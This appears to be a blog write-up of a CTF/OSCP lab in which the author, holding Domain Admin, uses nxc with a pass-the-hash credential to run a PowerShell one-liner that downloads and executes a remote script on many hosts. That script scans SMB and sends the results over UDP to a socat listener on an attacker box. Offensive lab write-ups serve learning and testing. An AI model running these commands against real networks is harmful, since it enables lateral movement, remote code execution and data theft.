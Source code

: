 ```yaml
---
title: "Hunting Subnets in a CTF Lab"
date: 2024-06-25T13:00:30-06:00
categories:
  - blog
tags:
  - powershell
  - subnets
  - CTF
  - OSCP
---
```


## Introduction

During a recent lab session, I encountered a challenging but exciting task: hunting down subnets. Armed with Domain Admin (DA) privileges on the main domain, I was set to make the exercise an intriguing venture. Despite the inherent lack of operational security (OpSec) safety in my approach, the process was thoroughly engaging.

### **Toolset**

- **PowerShell Scripting**: Utilized for probing subnet addresses.
- **socat**: Employed to listen for incoming UDP traffic.
- **NXC Command**: Used to execute commands across the network.
- **Web Server**: Used stage our powershell.

### **PowerShell Script**

To efficiently identify open ports across subnet addresses, I crafted a PowerShell script designed to check port 445 (SMB) and report back to my attacker box:

```powershell
$ListenerIP = "10.10.15.252"
$ListenerPort = 5001
$subnet = "172.16.2"
$udpclient = New-Object System.Net.Sockets.UdpClient

100..102 | ForEach-Object { 
    $ip = "$subnet.$_"
    try {
        $socket = New-Object System.Net.Sockets.TcpClient
        $async = $socket.BeginConnect($ip, 445, $null, $null)
        if ($async.AsyncWaitHandle.WaitOne(1000, $false)) { 
            $result = "$env:computername - $ip - 445 is open`n"
        } else {
            $result = "$env:computername - $ip - 445 is closed`n"
        }
        $udpclient.Send([Text.Encoding]::ASCII.GetBytes($result), $result.Length, $ListenerIP, $ListenerPort)
    } catch {
        $result = "$env:computername - $ip - encountered an error`n"
        $udpclient.Send([Text.Encoding]::ASCII.GetBytes($result), $result.Length, $ListenerIP, $ListenerPort)
    } finally {
        $socket.Close()
    }
}
$udpclient.Close()

```

### Socat Command

For real-time result collection, socat was configured to listen on UDP port 5001:

```bash
socat UDP-RECV:5001 STDOUT
```

### NXC Command

```bash
nxc smb 172.30.1.0/24 -u DA -H 700168xxxxxxxx39bd67e0 -x 'powershell -c "iex (iwr http://10.10.45.252:8000/tools/psscan.ps1 -usebasic)"'
```

### The Output

```bash
DC01 - 172.16.2.100 - 445 is closed
FS01 - 172.16.2.100 - 445 is closed
DC01 - 172.16.2.101 - 445 is closed
DC01 - 172.16.2.102 - 445 is open
FS0 - 172.16.2.101 - 445 is closed
FS01 - 172.16.2.102 - 445 is closed
MS01 - 172.16.2.100 - 445 is closed
WIN01 - 172.16.2.100 - 445 is closed
MS01 - 172.16.2.101 - 445 is closed
WIN01 - 172.16.2.101 - 445 is closed
WSADM1 - 172.16.2.100 - 445 is closed
MS01 - 172.16.2.102 - 445 is closed
WIN01 - 172.16.2.102 - 445 is closed
WSADM1 - 172.16.2.101 - 445 is closed
WSADM1 - 172.16.2.102 - 445 is closed
SQL01 - 172.16.2.100 - 445 is closed
SQL01 - 172.16.2.101 - 445 is closed
SQL01 - 172.16.2.102 - 445 is closed
```

### Conclusion
While not necessarily OpSec safe, this exercise was a fun and effective way to explore and understand the network layout and security posture regarding SMB ports within the lab's domain. The use of automated scripts and real-time data exfiltration offered a dynamic approach to network exploration.

We can easily adapt the ports to check, or even nest another For loop to add checking for multiple subnets.  I already had an idea of what i was going to find, and was only interested in the existence of the subnet, so i opted for on port and was content with running this multiple times to get what i needed.
